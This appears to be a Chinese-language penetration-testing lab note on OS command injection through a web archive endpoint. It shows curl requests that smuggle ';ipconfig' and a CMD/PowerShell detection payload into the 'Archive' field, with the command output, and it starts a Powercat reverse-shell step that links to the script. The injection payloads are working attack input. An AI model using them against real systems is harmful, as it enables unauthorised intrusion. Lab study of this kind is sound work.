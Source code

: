 ```

'git help -a' and 'git help -g' list available subcommands and some
concept guides. See 'git help <command>' or 'git help <concept>'
to read about a specific subcommand or concept.
See 'git help git' for an overview of the system.
```
> git clone 的功能。
> ipconfig 會被偵測到, 但可以單一執行 git

```
┌──(chw㉿CHW-kali)-[/]
└─$ curl -X POST --data 'Archive=git%3Bipconfig' http://192.168.50.189:8000/archive

...
'git help -a' and 'git help -g' list available subcommands and some
concept guides. See 'git help <command>' or 'git help <concept>'
to read about a specific subcommand or concept.
See 'git help git' for an overview of the system.

Windows IP Configuration


Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 192.168.50.189
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.50.254
```
> 確定可以執行 cmdi, 建立 Reverse shell

### PowerShell or CMD reverse shell
#### 1.  Code Snippet to check where our code is executed
```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```
```
┌──(chw㉿CHW-kali)-[/]
└─$ curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.50.189:8000/archive

...
See 'git help git' for an overview of the system.
PowerShell
```
>  (Base64 decode)\
>  git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell \
>  ``git;(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell``

#### 2. use **Powercat** to create a reverse shel
>[!Note]
> [Powercat source code](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1)            
